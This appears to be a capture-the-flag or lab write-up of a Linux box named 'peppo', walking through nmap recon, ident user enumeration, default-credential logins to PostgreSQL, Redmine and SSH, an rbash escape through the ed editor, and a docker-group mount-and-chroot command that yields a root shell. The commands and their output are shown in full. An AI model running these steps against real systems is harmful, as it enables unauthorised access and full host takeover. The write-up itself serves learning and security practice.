





Writeup by wook413

[TOC]

# Recon

## Nmap

As always, I started with a comprehensive TCP port scan followed by a targeted scan on the discovered ports, and lastly a UDP scan on the top 10 ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-19 01:19 UTC
Nmap scan report for 192.168.161.60
Host is up (0.045s latency).
Not shown: 65529 filtered tcp ports (no-response), 1 closed tcp port (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
22/tcp    open  ssh
113/tcp   open  ident
5432/tcp  open  postgresql
8080/tcp  open  http-proxy
10000/tcp open  snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 43.92 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 22,113,5432,8080,10000                          
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-19 01:21 UTC
Nmap scan report for 192.168.161.60
Host is up (0.047s latency).

PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 75:4c:02:01:fa:1e:9f:cc:e4:7b:52:fe:ba:36:85:a9 (RSA)
|   256 b7:6f:9c:2b:bf:fb:04:62:f4:18:c9:38:f4:3d:6b:2b (ECDSA)
|_  256 98:7f:b6:40:ce:bb:b5:57:d5:d1:3c:65:72:74:87:c3 (ED25519)
|_auth-owners: root
113/tcp   open  ident             FreeBSD identd
|_auth-owners: nobody
5432/tcp  open  postgresql        PostgreSQL DB 9.6.0 or later
8080/tcp  open  http              WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
|_http-server-header: WEBrick/1.4.2 (Ruby/2.6.6/2020-03-31)
|_http-title: Redmine
| http-robots.txt: 4 disallowed entries 
|_/issues/gantt /issues/calendar /activity /search
10000/tcp open  snet-sensor-mgmt?
|_auth-owners: eleanor
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   FourOhFourRequest: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Mon, 19 Jan 2026 01:21:34 GMT
|     Connection: close
|     Hello World
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Mon, 19 Jan 2026 01:21:27 GMT
|     Connection: close
|_    Hello World
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at <https://nmap.org/cgi-bin/submit.cgi?new-service> :
SF-Port10000-TCP:V=7.95%I=7%D=1/19%Time=696D8717%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,71,"HTTP/1\\.1\\x20200\\x20OK\\r\\nContent-Type:\\x20text/plain\\r\\n
SF:Date:\\x20Mon,\\x2019\\x20Jan\\x202026\\x2001:21:27\\x20GMT\\r\\nConnection:\\x2
SF:0close\\r\\n\\r\\nHello\\x20World\\n")%r(HTTPOptions,71,"HTTP/1\\.1\\x20200\\x20
SF:OK\\r\\nContent-Type:\\x20text/plain\\r\\nDate:\\x20Mon,\\x2019\\x20Jan\\x202026
SF:\\x2001:21:27\\x20GMT\\r\\nConnection:\\x20close\\r\\n\\r\\nHello\\x20World\\n")%r
SF:(RTSPRequest,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection:\\x20c
SF:lose\\r\\n\\r\\n")%r(RPCCheck,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nCon
SF:nection:\\x20close\\r\\n\\r\\n")%r(DNSVersionBindReqTCP,2F,"HTTP/1\\.1\\x20400
SF:\\x20Bad\\x20Request\\r\\nConnection:\\x20close\\r\\n\\r\\n")%r(DNSStatusRequest
SF:TCP,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection:\\x20close\\r\\n\\
SF:r\\n")%r(Help,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection:\\x20c
SF:lose\\r\\n\\r\\n")%r(SSLSessionReq,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r
SF:\\nConnection:\\x20close\\r\\n\\r\\n")%r(TerminalServerCookie,2F,"HTTP/1\\.1\\x
SF:20400\\x20Bad\\x20Request\\r\\nConnection:\\x20close\\r\\n\\r\\n")%r(TLSSessionR
SF:eq,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection:\\x20close\\r\\n\\r
SF:\\n")%r(Kerberos,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection:\\x
SF:20close\\r\\n\\r\\n")%r(SMBProgNeg,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r
SF:\\nConnection:\\x20close\\r\\n\\r\\n")%r(X11Probe,2F,"HTTP/1\\.1\\x20400\\x20Bad
SF:\\x20Request\\r\\nConnection:\\x20close\\r\\n\\r\\n")%r(FourOhFourRequest,71,"H
SF:TTP/1\\.1\\x20200\\x20OK\\r\\nContent-Type:\\x20text/plain\\r\\nDate:\\x20Mon,\\x
SF:2019\\x20Jan\\x202026\\x2001:21:34\\x20GMT\\r\\nConnection:\\x20close\\r\\n\\r\\nH
SF:ello\\x20World\\n")%r(LPDString,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\
SF:nConnection:\\x20close\\r\\n\\r\\n")%r(LDAPSearchReq,2F,"HTTP/1\\.1\\x20400\\x2
SF:0Bad\\x20Request\\r\\nConnection:\\x20close\\r\\n\\r\\n")%r(LDAPBindReq,2F,"HTT
SF:P/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection:\\x20close\\r\\n\\r\\n")%r(SIP
SF:Options,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection:\\x20close\\
SF:r\\n\\r\\n")%r(LANDesk-RC,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnec
SF:tion:\\x20close\\r\\n\\r\\n")%r(TerminalServer,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x
SF:20Request\\r\\nConnection:\\x20close\\r\\n\\r\\n");
Service Info: OSs: Linux, FreeBSD; CPE: cpe:/o:linux:linux_kernel, cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 44.92 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10               
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-19 01:23 UTC
Nmap scan report for 192.168.161.60
Host is up (0.046s latency).

PORT     STATE         SERVICE
53/udp   open|filtered domain
67/udp   open|filtered dhcps
123/udp  open|filtered ntp
135/udp  open|filtered msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  open|filtered snmp
445/udp  open|filtered microsoft-ds
631/udp  open|filtered ipp
1434/udp open|filtered ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 1.80 seconds
```

# Initial Access

## FreeBSD ident 113

I attempted to interact with the service with telnet but didn’t get much information from it.

```sql
┌──(kali㉿kali)-[~/Desktop]
└─$ telnet $IP 113
Trying 192.168.161.60...
helConnected to 192.168.161.60.
Escape character is '^]'.
help
0 , 0 : ERROR : INVALID-PORT
```

Whenever I encounter services I’m not familiar with, `HackTricks` is my go-to resource. Upon reading its page about ident, I learned about `Ident-user-enum` tool which could help me gather existing usernames.



```sql
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo apt install ident-user-enum  
[sudo] password for kali: 
Installing:                     
  ident-user-enum

Installing dependencies:
  libnet-ident-perl

Summary:
  Upgrading: 0, Installing: 2, Removing: 0, Not Upgrading: 1732
  Download size: 26.4 kB
  Space needed: 72.7 kB / 49.2 GB available

Continue? [Y/n] 
```

`ident-user-enum` revealed user `eleanor` .

```sql
┌──(kali㉿kali)-[~/Desktop]
└─$ ident-user-enum $IP 22 113 5432 8080 10000
ident-user-enum v1.0 ( <http://pentestmonkey.net/tools/ident-user-enum> )

192.168.161.60:22       root
192.168.161.60:113      nobody
192.168.161.60:5432     <unknown>
192.168.161.60:8080     <unknown>
192.168.161.60:10000    eleanor
```

## PostgresSQL 5432

I found that I was able to interact with the PostgresSQL service using the default credentials:`postgres:postgres` . However, I was not able to find any helpful leads in the database.

```sql
┌──(kali㉿kali)-[~/Desktop]
└─$ psql -h $IP -p 5432 -U postgres
Password for user postgres: 
psql (17.5 (Debian 17.5-1), server 12.3 (Debian 12.3-1.pgdg100+1))
Type "help" for help.

postgres=# 
postgres=# \\list
                                                    List of databases
   Name    |  Owner   | Encoding | Locale Provider |  Collate   |   Ctype    | Locale | ICU Rules |   Access privileges   
-----------+----------+----------+-----------------+------------+------------+--------+-----------+-----------------------
 postgres  | postgres | UTF8     | libc            | en_US.utf8 | en_US.utf8 |        |           | 
 template0 | postgres | UTF8     | libc            | en_US.utf8 | en_US.utf8 |        |           | =c/postgres          +
           |          |          |                 |            |            |        |           | postgres=CTc/postgres
 template1 | postgres | UTF8     | libc            | en_US.utf8 | en_US.utf8 |        |           | =c/postgres          +
           |          |          |                 |            |            |        |           | postgres=CTc/postgres
(3 rows)
```

## HTTP 8080

```sql
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 8080  
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-19 01:46 UTC
Nmap scan report for 192.168.161.60
Host is up (0.048s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
|_http-server-header: WEBrick/1.4.2 (Ruby/2.6.6/2020-03-31)
| http-enum: 
|   /login.stm: Belkin G Wireless Router
|   /admin.php: Possible admin folder (401 Unauthorized )
|   /login.php: Possible admin folder
|   /login.html: Possible admin folder
|   /admin.cfm: Possible admin folder (401 Unauthorized )
|   /login.cfm: Possible admin folder
|   /admin.asp: Possible admin folder (401 Unauthorized )
|   /login.asp: Possible admin folder
|   /admin.aspx: Possible admin folder (401 Unauthorized )
|   /login.aspx: Possible admin folder
|   /admin.jsp: Possible admin folder (401 Unauthorized )
|   /login.jsp: Possible admin folder
|   /users.sql: Possible database backup (401 Unauthorized )
|   /login/: Login page
|   /login.htm: Login page
|   /login.jsp: Login page
|   /robots.txt: Robots file
|   /admin.nsf: Lotus Domino (401 Unauthorized )
|   /news/: Potentially interesting folder
|_  /search/: Potentially interesting folder

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 115.44 seconds
```

Navigating to `/issues/gantt` brought up the login page. I entered the default credentials `admin:admin` , and it prompted me to change my password which indicates I’m logged in as admin.



I found some version information of the services running on the server. However, I failed to find any known vulnerabilities associated with the versions.



## snet-sensor-mgmt 10000

Port 10000 appears to be running Webmin, a web-based server management tool. Aside from identifying the service, no further leads for exploitation were found.



```sql
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nv $IP 10000
(UNKNOWN) [192.168.161.60] 10000 (webmin) open
help
HTTP/1.1 400 Bad Request
Connection: close
```

# Shell as `eleanor`

## SSH 22

I successfully logged into the SSH server using the credentials `eleanor:eleanor` . It’s very typical in a CTF environment for the user’s password to be identical to the username.

```sql
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh eleanor@$IP                 
The authenticity of host '192.168.161.60 (192.168.161.60)' can't be established.
ED25519 key fingerprint is SHA256:GrHKbhpl4waMainGkiieqFVD5jgXi12zVmCIya8UR7M.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.161.60' (ED25519) to the list of known hosts.
eleanor@192.168.161.60's password: 
Linux peppo 4.9.0-12-amd64 #1 SMP Debian 4.9.210-1 (2020-01-20) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
eleanor@peppo:~$ 
```

The `whoami` command did not go through. It appeared that I was in a restricted shell, rbash.

```sql
eleanor@peppo:~$ whoami
-rbash: whoami: command not found
```

The PATH environment variable was set to `/home/eleanor/bin` , indicating that only the executables inside that directory are available.

```sql
eleanor@peppo:~$ echo $PATH
/home/eleanor/bin

eleanor@peppo:~$ ls bin
chmod  chown  ed  ls  mv  ping  sleep  touch
```

Among the binaries, `ed` stood out to me. According to `GTFObins` , we can spawn an interactive system shell. This probably can help us bypass rbash.



I originally attempted to change the value of PATH environment variable but it was blocked by rbash. However, I was able to escape this restriction by using the `ed` editor. Since ed can spawn a new, unrestricted shell with the `!/bin/bash` command, I was able to bypass the rbash limitations and reset my `PATH` .

```sql
eleanor@peppo:~$ ed
!/bin/bash
eleanor@peppo:~$ PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
eleanor@peppo:~$ echo $PATH
/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
```

Now I can use all of the default binaries including `which` . I stabilized the current shell using Python and re-defined the PATH variable again.

```sql
eleanor@peppo:~$ which python
/usr/bin/python
eleanor@peppo:~$ python -c 'import pty;pty.spawn("/bin/bash")'
eleanor@peppo:~$ PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
```

found `local.txt`

```sql
eleanor@peppo:~$ cat local.txt
104...
```

# Privilege Escalation

## Docker Group

`id` command revealed `eleanor` is part of `docker` group.

```sql
eleanor@peppo:/home$ id
uid=1000(eleanor) gid=1000(eleanor) groups=1000(eleanor),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),999(docker)
```

# Shell as `root`

In Linux, anyone in Docker group can interact with the Docker daemon without using `sudo` . Since the Docker daemon runs with **root privileges,** a user can abuse this to gain full control over the host system.

The command `docker run -v /:/mnt --rm -it redmine chroot /mnt sh` performs several critical actions.

- `-v /:/mnt` : This mounts the entire **host file system** into the container’s `/mnt` directory. This bypasses all file permission restrictions.
- `chroot /mnt` : This changes the root directory of the current process to `/mnt` . Effectively, the shell is no longer trapped inside the container; it is now operating on the **host’s physical disk.**

```bash
eleanor@peppo:/home$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
redmine             latest              0c8429c66e07        5 years ago         542MB
postgres            latest              adf2b126dda8        5 years ago         313MB

eleanor@peppo:/home$ docker run -v /:/mnt --rm -it redmine chroot /mnt sh
# whoami
root
```

found `proof.txt`

```bash
# cd /root
# ls
proof.txt
# cat proof.txt
f49...
```